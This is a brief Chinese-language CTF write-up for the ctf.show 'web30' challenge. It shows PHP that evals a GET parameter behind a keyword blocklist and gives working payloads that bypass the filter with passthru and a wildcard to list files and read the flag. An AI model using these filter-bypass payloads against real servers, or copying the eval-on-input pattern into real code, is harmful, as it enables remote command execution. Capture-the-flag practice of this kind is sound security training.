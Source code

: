 # web30

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

目前来看，是拦截了`stystem`和`flag`关键词，但是php中不止有`system`函数可以执行命令

- system
- passthru
- exec
- pcntl_exec
- shell_exec
- popen / proc_open
- 反引号\`\`

那么直接使用`passthru`即可，而且`passthru`函数自带输出结果的特性

```plaintext
https://84bc19c2-1327-4bab-8522-6e67439e685c.challenge.ctf.show/?c=passthru("ls -lh");
```

![img](img/image_20250209-180939.png)

那么直接读取flag即可

```plaintext
https://84bc19c2-1327-4bab-8522-6e67439e685c.challenge.ctf.show/?c=passthru("cat /var/www/html/fl*");
```

![img](img/image_20250213-181354.png)

